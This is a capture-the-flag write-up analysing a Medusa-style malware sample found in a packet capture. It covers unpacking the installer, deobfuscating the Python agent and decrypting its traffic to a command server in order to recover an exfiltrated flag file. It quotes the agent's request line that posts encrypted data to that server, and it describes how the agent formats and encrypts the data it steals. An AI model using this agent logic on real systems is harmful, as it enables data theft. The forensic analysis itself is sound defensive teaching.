


# Day 25 (DailyCTF) Medusa Challenge by https://pknova76.github.io/

## Challenge:

```
+ Name

Don't look into her eyes...

+ Difficulty:

Medium

+ Description

Deep within the dimly lit, maze-like depths of a forgotten university library, a curious individual named Rey stumbled upon an ancient tome that had long been concealed in the archives. Although the book's pages had grown brittle and its ink had faded with time, its title, "The Mythical Secrets of Ancient Greece," piqued Rey's interest. Little did they know that their decision to install a digital version of the Medusa myth would lead to a modern-day encounter with a very different kind of monstrous entity.

As Rey initiated the installation process for a digital copy of the ancient book on their laptop, they unwittingly released a torrent of malicious code that had been hidden within the installer for centuries. Unbeknownst to them, this file was not just an ordinary software package; it was a cybernetic Medusa lurking in the depths of the internet.

The malicious file rapidly infiltrated Rey's computer, encrypting their important files and siphoning off their personal information. The individual's screen flickered with eerie digital patterns, reminiscent of writhing serpents, as the malware began transmitting suspicious data to an unknown server.

In a cruel twist of fate, Rey's digital curiosity had triggered a modern-day encounter with a virtual Medusa, transforming their once-trusted device into a den of perilous snakes, all while the legendary Gorgon's story unfolded in the pages of the ancient tome they had so innocently sought to explore.

Note: the challenge contains actual malware, please proceed with caution.
```
## Inspecting the network traffic capture
We are given a network capture file <Code>capture.pcapng</Code>. Let's check this out in Wireshark.



After scrolling around a bit, you might spot <code>HTTP/1.0 200 OK (application/x-msdos-program)</code>. The challenge description also mentioned some malicious software, and it's in general a good idea to check for any files to export in a CTF challenge.

Go to File -> Export Objects -> HTTP and you should be able to see <code>Python.exe</code> at <code>packet 27746</code>. Select that row and click Save.

Note: To make life easier, go to View -> Name Resolution -> Resolve Network Addresses for Wireshark to show actual server names instead of IPs.

That <code>Python.exe</code> has to be the malicious file, so don't actually run it! Now this seems like a Reverse Engineering problem, so I spent (wasted) a few hours in Ghidra trying to figure this out. I also even tried things like <code>binwalk</code> and other forensics tools. The program is very complex, and before you download a Windows VM and try to WinDbg it, there is a better way.

## Decoding Python.exe

Running the <code>file</code> command on the EXE will output <code>PE32 executable (GUI) Intel 80386, for MS Windows</code>. Searching for something like how to reverse a PE32 EXE or Windows EXE gives this valueble StackOverflow link: https://stackoverflow.com/questions/273145/is-it-possible-to-decompile-a-windows-exe-or-at-least-view-the-assembly.

It talked about how with a decompiler, you can reverse an EXE into its original source code. If you don't know the language of the source code, you can find out with <a href=https://horsicq.github.io>Detect It Easy</a>. The challenge creator hinted about DiE as well.


As you can see, it's compiled using Delphi. Going back to the Stack Overflow link, I downloaded DeDe (Delphi decompiler) and spent (wasted) a bunch of time with that.

The key thing to note here is that the program is installed with <code>Inno Setup</code>. With some more Googling, you can find an <a href=https://sourceforge.net/projects/innounp/files>unpacker for Inno Setup</a>.

That will give the actual <code>.py</code> source code of <code>Python.exe</code>.

## Understanding Medusa py

The <code>Medusa.py</code> is obfuscated. Remove the <code>exec</code> part at the start and <code>.encode()</code> at the end and print out the entire thing. Then, save the output to a <code>.py</code> file. In my case, I saved it to <code>code.py</code>.

We are greeted with a ~600-line program. The good thing is that everything before <code>class Medusa</code> can be ignored as those are just standard encryption stuff. Scrolling all the way down, we see that the code is making requests to server <code>http://pknova.id.vn</code> with a PayloadUUID of <code>f24f91f6-8b75-47ef-8493-f8cf506441e5</code>.

Another thing to note is that while the key <code>PayloadUUID</code> has a value, the key <code>UUID</code> does not. The <code>while(True)</code> loop always first checks if <code>self.agent_config["UUID"] == ""</code>. If it's true that the key <code>UUID</code> does not have a value, then the program runs the <code>checkIn</code> function. 

That function has a dictionary <code>data</code> with its key <code>UUID</code> set to <code>self.agent_config["PayloadUUID"]</code>. It then sends that data using <code>self.makeRequest(encoded_data, 'POST')</code> to the server and recieves the response that contains the value for the key <code>PayloadUUID</code>. Finally, it sets <code>self.agent_config["UUID"] = UUID</code>, where UUID is the original PayloadUUID value.

That might be a bit confusing, but here are the two takeaways:
<li>
The <code>checkIn</code> function acts like some sort of a first run, where the program sends a check in message just to tell the server 'Hey, I've been executed for the first time'.
</li>
<li>
For the <i>very first</i> POST request, the values for the keys <code>UUID</code> and <code>PayloadUUID</code> are  the same. For later requests, it seems that the UUID changes, but I'm not fully understanding that detail.
</li>  

Moving on, from the challenge description, we know that the malware is getting all the files on the local system and sending them to the server. Indeed, we find functions like <code>ls</code> and <code>cat</code> defined in the code that works with files. We also find functions <code>encrypt</code> and <code>decrypt</code> meaning that the network data sent to the server is encrypted and the encrypted response is decrypted locally.  

We can also trace how the program sends out network traffic. In the <code>__ init __</code> (ignore the spaces) function, it does <code>self.postResponses()</code>. We then see <code>postResponses</code> has <code>response_data = self.postMessageAndRetrieveResponse(message)</code>. The parameter <code>message</code> is just a dictionary <code>{ "action": "post_response", "responses": responses }</code> with the variable <code>responses</code> being a list of filtered taskings derived from another function.

The function <code>postMessageAndRetrieveResponse(self, data)</code> returns <code>self.formatResponse(self.decrypt(self.makeRequest(self.formatMessage(data),'POST')))</code>. Remember that the parameter <code>data</code> is the exact same as <code>message</code>.

<code>formatMessage</code> returns <code>base64.b64encode(self.agent_config["UUID"].encode() + self.encrypt(json.dumps(data).encode()))</code>. We don't need to worry about <code>urlsafe</code> because no value for that was passed in. Its default is <code>false</code>. Breaking down that line, we have the <i>unencrypted</i> <code>UUID</code> value concatenated with the encrypted <code>data</code> (or <code>message</code>) that's passed in, and the result is encrypted finally via <code>base64 encryption</code>.

That <code>base64</code> encrypted output is passed into <code>makeRequest(self, data, method='GET')</code> with the instruction to use "POST". We can see that the data is sent without any further processsing via <code>urllib.request.Request(self.agent_config["Server"] + ":" + self.agent_config["Port"] + self.agent_config["PostURI"], data, hdrs)</code>. Additionally, the <code>makeRequest</code> function returns the <i><b>base64 decrypted</b></i> server response for <code>self.formatResponse</code> and <code>self.decrypt</code> to process.

This program is all about sending and recieving network data. The good news is that the network traffic is given to us from the start!

## Extracting data via Wireshark

As stated above, the first POST request is where we know for sure that the <code>PayloadUUID</code> and <code>UUID</code> are the same. It is packet number <code>28892</code>. Let's get that data by highlighting it -> right click -> ...as Printable Text. Or, depending on where you clicked on the interface, right click -> Copy -> ...as Printable Text. The data should be: <code>ZjI0ZjkxZjYtOGI3NS00N2VmLTg0OTMtZjhjZjUwNjQ0MWU1V1rNlPIXyUK9gIARqb84jo1hHmZqdFb4diXVKPGofPlScGDxMsJH6iL9a3vFug3LeJxLYTTTs5boJlICRuzz9ZeX1b8xe1Z/kWJtdA1y18uO4VYdwiaPrlgVouZxXrcsL3X2ubJFsH/emJ4vqQd0taYYmCf3UKHG2qS/EtvkC9N+K/a2bx59UQfQhPJJPLtYlpgj9pAXmvMu+1wiGQ5dWYgqGBoJmyYnXtWVo9zxkVKCcEd0YY6rkYcQ4xIoF1r4w8WGLJx/hJSofSwK4HKt2hqrRfsiGrfEK8R2TZ0lzw/D4ZDHiDw17H+/8T9CGdoX0iidxUC3nRbQOCWi2HWhthe3tyALOSBXvv4Ite7oM3CXr1wxtv9rVNV1dDZEKbvCdLCnwccyqiCGpB3cS3JtboyBKD2DBbTx9AIg8vt1JkHr00Zv4PCY7frRhDPQawdrkAuZiqXWQTLmruVJIT0WknZ/MJOVttlU3FW2HiSVePXNxjjk7RjBXMK9b49UQwUVpLEQHAWVGddDjDx+HcgunqSxxceHet1TQA5IsrH1y5c=</code>. Paste that into a base64 decoder, and sure enough, we get <code>f24f91f6-8b75-47ef-8493-f8cf506441e5</code> and some gibberish as the decoded plain text.

## Understanding the decrypt function

That's great, but how can we fully decrypt this data? While the <code>self.decrypt</code> function only intends to decrypt server responses, we can still use it to decrypt the data that's sent to the server.

```python3
def decrypt(self, data):
        from hmac import new, compare_digest

        if self.agent_config["enc_key"]["value"] == "aes256_hmac":
            if len(data)>0:
                key = base64.b64decode(self.agent_config["enc_key"]["dec_key"])
                uuid = data[:36]
                iv = data[36:52]
                ct = data[52:-32]
                received_hmac = data[-32:]
                hmac = new(key, iv + ct, 'sha256').digest()
                if compare_digest(hmac, received_hmac):
                    return (uuid + AES(key).decrypt_cbc(ct, iv)).decode()
                else: return ""
            else: return ""
        else: return data.decode()
```

Notes:
<li>The encryption method will always be <code>aes256_hmac</code>. No need to check for that.</li>
<li><b>The parameter <code>data</code> should already be base64 decoded.</b> That's explained more above.</li>
<li>The <code>uuid</code> is the first 36 characters of data. Indeed, we demonstrated that above.</li>
<li>The key is symmetric.</li>
<li>AES is the custom class coded before the <code>Medusa</code> class.</li>

Let's simplify this <code>decrypt</code> function.

```python3
from hmac import new, compare_digest
key = base64.b64decode("1BxdD28iVHm1sqH+Zaebi5kBWWUGWs06rPgO0WDo+KM=")
def decrypt(data):
    uuid = data[:36]
    iv = data[36:52]
    ct = data[52:-32]
    received_hmac = data[-32:]
    hmac = new(key, iv + ct, 'sha256').digest()
    if compare_digest(hmac, received_hmac):
        return ((uuid + AES(key).decrypt_cbc(ct, iv)).decode())
```
Remember to paste in the AES class and all that before this. Set <code>data</code> to <code>base64.b64decode("ZjI0ZjkxZjYtOGI3NS00N2VmLTg0OTMtZjhjZjUwNjQ0MWU1V1rNlPIXyUK9gIARqb84jo1hHmZqdFb4diXVKPGofPlScGDxMsJH6iL9a3vFug3LeJxLYTTTs5boJlICRuzz9ZeX1b8xe1Z/kWJtdA1y18uO4VYdwiaPrlgVouZxXrcsL3X2ubJFsH/emJ4vqQd0taYYmCf3UKHG2qS/EtvkC9N+K/a2bx59UQfQhPJJPLtYlpgj9pAXmvMu+1wiGQ5dWYgqGBoJmyYnXtWVo9zxkVKCcEd0YY6rkYcQ4xIoF1r4w8WGLJx/hJSofSwK4HKt2hqrRfsiGrfEK8R2TZ0lzw/D4ZDHiDw17H+/8T9CGdoX0iidxUC3nRbQOCWi2HWhthe3tyALOSBXvv4Ite7oM3CXr1wxtv9rVNV1dDZEKbvCdLCnwccyqiCGpB3cS3JtboyBKD2DBbTx9AIg8vt1JkHr00Zv4PCY7frRhDPQawdrkAuZiqXWQTLmruVJIT0WknZ/MJOVttlU3FW2HiSVePXNxjjk7RjBXMK9b49UQwUVpLEQHAWVGddDjDx+HcgunqSxxceHet1TQA5IsrH1y5c=")</code> and checkout <code>print(decrypt(data))</code>!

You should get:
<code>f24f91f6-8b75-47ef-8493-f8cf506441e5{"action": "checkin", "ip": "192.168.74.133", "os": "Windows 10", "user": "rey", "host": "DESKTOP-BUBC55H", "domain:": "DESKTOP-BUBC55H.localdomain", "pid": 6640, "uuid": "f24f91f6-8b75-47ef-8493-f8cf506441e5", "architecture": "x64", "encryption_key": "1BxdD28iVHm1sqH+Zaebi5kBWWUGWs06rPgO0WDo+KM=", "decryption_key": "1BxdD28iVHm1sqH+Zaebi5kBWWUGWs06rPgO0WDo+KM="}</code>. Everything matches up. The UUID is at the beginning. The action is checkin. And we gain critical (not really) information that the user's name is rey.

Ok...so where's the flag?

## Getting the flag

If we go back to the <code>capture.pcapng</code> file, we see that the program made lots of POST and GET requests and recieved many server responses. The process and encryption for GET requests are basically identical to POST requests. Since we figured out how to decrypt one piece of data, we can decrypt ALL those data.

In Wireshark, go to File -> Export Objects -> HTTP. This time, instead of just exporting Python.exe, click Save All.

We just need to loop through all those exported files (data) and <i>first decrypt them with base64</i> and then pass that in to the decrypt function we created earlier. The decrypted output will all be stored in a .txt file since it's very long.

```python3
from hmac import new, compare_digest

key = base64.b64decode("1BxdD28iVHm1sqH+Zaebi5kBWWUGWs06rPgO0WDo+KM=")

def decrypt(data):
    uuid = data[:36]
    iv = data[36:52]
    ct = data[52:-32]
    received_hmac = data[-32:]
    hmac = new(key, iv + ct, 'sha256').digest()
    if compare_digest(hmac, received_hmac):
        return ((uuid + AES(key).decrypt_cbc(ct, iv)).decode())

decrypted_data=""
for file in os.listdir():
    with open(file,"r") as data:
        try:
            data=base64.b64decode(data.read())
            decrypted_data+=decrypt(data)
        except:
            pass

with open("decrypted_data.txt","w") as f:
    f.write(decrypted_data)
```
Surely the flag is in decrypted_data.txt. Let's check it out!

Spoiler alert that plain text flag is NOT in that .txt file. I'm not going to paste the contents here because it is extremely long. I will talk about how to navigate that data.

First off, we see in <code>"user_output"</code>, there is <code>\"files\"</code>, which if you read through that, you'll find: <code>{\"name\": \"flag.txt\", \"is_file\": true, \"permissions\": {\"octal\": \"666\"}, \"access_time\": 1694185659341, \"modify_time\": 1694174380784, \"size\": 351}</code>. Ok, so the malware read <code>flag.txt</code> on the victim's machine and sent the contents of that file to the server.

Reading further down, you'll find a wall of base64 encoded data, in which is identified as <code>"download": {"chunk_num": 1, "file_id": "2445f0f8-506d-4259-a6b0-e7d0124f6165", "chunk_data":</code>. So, to send the file contents to the server, the malware broke the content into chunks which the server should reassemble. This follows the OSI model, if you're into that.

Should we do the same thing? Write code that reads the file_id and chunk_num and chunk_data and reassemble all those into the original files. Doing that correctly will 100% give us <code>flag.txt</code>.

But it doesn't have to be that complicated! Each file has a unique <code>file_id</code>, so what is the file_id for <code>flag.txt</code>? You can search for flag in the text or scroll down to the bottom to see:

<code>"command":"download","parameters":"{\"file\": \"C:\\\\Users\\\\rey\\\\Documents\\\\flag.txt\"}","id":"380c4fc4-a232-4fb0-9678-2f2000eb7f9c"}]}</code>. There! Search for <code>380c4fc4-a232-4fb0-9678-2f2000eb7f9c</code> in the text and eventually arrive at:

<code>[{"task_id": "380c4fc4-a232-4fb0-9678-2f2000eb7f9c", "download": {"total_chunks": 1, "full_path": "C:\\Users\\rey\\Documents\\flag.txt", "chunk_size": 51200}}]}99a48311-f781-4c0f-a90d-d4bc4d6a17e8{"action":"post_response","responses":[{"file_id":"898cd62e-d90b-4a04-92e5-c1b24c62e28a","status":"success","task_id":"380c4fc4-a232-4fb0-9678-2f2000eb7f9c"}]}99a48311-f781-4c0f-a90d-d4bc4d6a17e8{"action": "post_response", "responses": [{"task_id": "380c4fc4-a232-4fb0-9678-2f2000eb7f9c", "download": {"chunk_num": 1, "file_id": "898cd62e-d90b-4a04-92e5-c1b24c62e28a", "chunk_data": "VGjhurFuZyBuw6BvIGPDsyBGTEFHLCB0aMOsIHN1Ym1pdCB2w6BvIGh0dHBzOi8vY25zYy51aXQuZWR1LnZuL2N0Zi9jaGFsbGVuZ2VzLiANCg0Kw41UIHRow6wgMSBGTEFHLiBOSEnhu4BVIHRow6wgY2xlYXIuIA0KDQpIaeG7g3UgY2jGsGE/IENow7puZyBiw6J5IGhp4buDdSBhbmggbsOzaSBnw6wgY2jGsGE/IEFuaCBraMO0bmcgdGjDrWNoIG7Ds2kgw610LiANCg0KQW5oIG7Ds2kgxJHhu4MgY2jDum5nIGLDonkgbmdoZS4gRmxhZyBuw6ggVzF7c2hvdWxkJ3ZlX2VuYWJsZWRfd2luZG93c19kZWZlbmRlcl86KF9XaHlfZGlkX0lfZXZlbl9kb3dubG9hZF9mcm9tX3RoYXRfc2tldGNoeV9zaXRlX2FueXdheT8/Pz99"}}]}</code>

I suppose if you just searched for flag you could've gotten here as well. But anyways, since the <code>total_chunks</code> is <code>1</code>, this chunk data is the entirety of the flag. Decoding that using a base64 decoder will give you the original plain text containing the flag.


